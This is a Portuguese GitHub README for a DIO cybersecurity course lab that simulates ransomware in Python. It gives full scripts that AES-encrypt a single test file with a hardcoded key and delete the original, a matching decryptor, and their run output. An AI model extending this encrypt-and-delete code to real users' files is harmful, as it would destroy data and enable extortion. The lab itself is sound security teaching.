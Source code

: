 <h1>
    <a href="https://www.dio.me/">
     <img align="center" width="40px" src="https://hermes.digitalinnovation.one/assets/diome/logo-minimized.png"></a>
    <span>Desafio de projeto</span>
    <img align="center" width="100px" src="https://hermes.dio.me/tracks/f7103da6-32cf-46a4-be1c-c97067534355.png">    
</h1>

Disponibilização do **README.md** com orientações do desafio "Entendendo um Ransomware na prática com Python".<br> **Formação Cybersecurity Specialist** da <img width="70px" background-color="black" src="https://hermes.digitalinnovation.one/assets/diome/logo.svg"> [Digital Innovation One](https://www.dio.me/).

**Ferramentas:**

- Ubuntu Linux
- Python 3

1. Crie um diretório para trabalhar em um ambiente controlado:

``` 
~/workspace$ mkdir encript-decript
~/workspace$ ls
```
> encript-decript

```
~/workspace$ cd encript-decript
```

2. Criando os arquivos:

```
~/workspace/encript-decript$ echo "Arquivo de texto não encriptado" > teste.txt
~/workspace/encript-decript$ nano encript.py
```

> código do arquivo encript.py:

```
import os
import pyaes

# Script para simular um Ransomware

# Função principal para encriptar o arquivo de teste.txt
# Inclui no laboratório um tratamento de erro try-except, mas em um cenário real não estariam
def encrypt_file(input_filename, output_filename, key):
    try:
        with open(input_filename, "rb") as original_file:
            aes = pyaes.AESModeOfOperationCTR(key)
            with open(output_filename, "wb") as encrypted_file:
                while True:
                    chunk = original_file.read(1024)  # Lê o arquivo em blocos de 1 KB
                    if not chunk:
                        break
                    encrypted_chunk = aes.encrypt(chunk)
                    encrypted_file.write(encrypted_chunk)
        
        # Remover o arquivo original após a criptografia bem-sucedida
        os.remove(input_filename)
        
        print(f"Arquivo '{input_filename}' criptografado com sucesso em '{output_filename}'")
    
    except Exception as e:
        print(f"Erro ao criptografar o arquivo: {str(e)}")

# Como é um laboratório, inclui a estrutura if __name__=="__main__"
# Dessa forma o código só será executado diretamente.

if __name__ == "__main__":
    original_file_name = "teste.txt"
    encrypted_file_name = original_file_name + ".ransomwaretroll"
    encryption_key = b"testeransomwares"

    encrypt_file(original_file_name, encrypted_file_name, encryption_key) # chamada da função aqui
```
>
```
~/workspace/encript-decript$ nano decript.py
```

> código do arquivo decript.py:

```
import os
import pyaes

# Script para simular o resgate de um arquivo encriptado por um Ransomware

# Função principal para descriptografar o arquivo de teste.txt
# Inclui no laboratório um tratamento de erro try-except, mas em um cenário real não estariam

def decrypt_file(input_filename, output_filename, key):
    try:
        with open(input_filename, "rb") as encrypted_file:
            aes = pyaes.AESModeOfOperationCTR(key)
            with open(output_filename, "wb") as decrypted_file:
                while True:
                    chunk = encrypted_file.read(1024)  # Lê o arquivo criptografado em blocos de 1 KB
                    if not chunk:
                        break
                    decrypted_chunk = aes.decrypt(chunk)
                    decrypted_file.write(decrypted_chunk)
        
        # Remover o arquivo criptografado após a descriptografia bem-sucedida
        os.remove(input_filename)
        
        print(f"Arquivo '{input_filename}' descriptografado com sucesso em '{output_filename}'")
    
    except Exception as e:
        print(f"Erro ao descriptografar o arquivo: {str(e)}")

# Como é um laboratório, inclui a estrutura if __name__=="__main__"
# Dessa forma o código só será executado diretamente.

if __name__ == "__main__":
    encrypted_file_name = "teste.txt.ransomwaretroll"
    decrypted_file_name = "teste.txt"
    decryption_key = b"testeransomwares"

    decrypt_file(encrypted_file_name, decrypted_file_name, decryption_key) # chamada da função aqui
```

3. Instalando bibilioteca **pyaes**:

```
~/workspace/encript-decript$ pip install pyaes
```
> Saída:

```
Defaulting to user installation because normal site-packages is not writeable
Collecting pyaes
  Downloading pyaes-1.6.1.tar.gz (28 kB)
  Preparing metadata (setup.py) ... done
Building wheels for collected packages: pyaes
  Building wheel for pyaes (setup.py) ... done
  Created wheel for pyaes: filename=pyaes-1.6.1-py3-none-any.whl size=26363 sha256=4abc28ef17fd9d7040d63936f1c746ab30653a3c0b62c643b69bc5cc6308f0f6
  Stored in directory: /home/meuUsuario/.cache/pip/wheels/d6/84/5f/ea6aef85a93c7e1922486369874f4740a5642d261e09c59140
Successfully built pyaes
Installing collected packages: pyaes
Successfully installed pyaes-1.6.1
```

4. Executando os scripts:

``` 
~/workspace/encript-decript$ ls
```
> Saída:
```
decript.py  encript.py  teste.txt
```
>
```
~/workspace/encript-decript$ python3 encript.py
```
> Saída:
```
Arquivo 'teste.txt' criptografado com sucesso em 'teste.txt.ransomwaretroll'
```
>
```
~/workspace/encript-decript$ ls
```
> Saída:
```
decript.py  encript.py  teste.txt.ransomwaretroll
```
>
```
~/workspace/encript-decript$ cat teste.txt.ransomwaretroll 
```
> Saída:
```
i�'|&`,N�x.Pw���/��,��i��
```
>
```
~/workspace/encript-decript$ python3 decript.py
```
> Saída:
```
Arquivo 'teste.txt.ransomwaretroll' descriptografado com sucesso em 'teste.txt'
```
>
```
~/workspace/encript-decript$ ls
```
> Saída:
```
decript.py  encript.py  teste.txt
```

## Redes Socias

[![PerfilDIO](https://img.shields.io/badge/DIO-0077B5?style=for-the-badge&logo=dio&logoColor=white)](https://web.dio.me/users/marcelo_soares92)
[![GitLab](https://img.shields.io/badge/GitLab-000?style=for-the-badge&logo=gitlab&logoColor=E94D5F)](https://gitlab.com/Mdsoare/)
[![GitHub](https://img.shields.io/badge/GitHub-000?style=for-the-badge&logo=github&logoColor=30A3DC)](https://github.com/Mdsoare/)
[![LinkedIn](https://img.shields.io/badge/LinkedIn-0077B5?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/marcelodsoares/) 

<table>
  <tr>
    <td>
      <img width="80px" align="center" src="https://avatars.githubusercontent.com/Mdsoare"/>
    </td>
    <td align="left">
      <a href="https://github.com/Mdsoare">
        <span><b>Marcelo Soares</b></span>
      </a>
      <br>
      <span>Analista de Sistemas</span>
    </td>
  </tr>
</table>

##
<div align="center">Disponibilizado por <a href="https://github.com/Mdsoare">🕶 Marcelo Soares ®</a>.</div>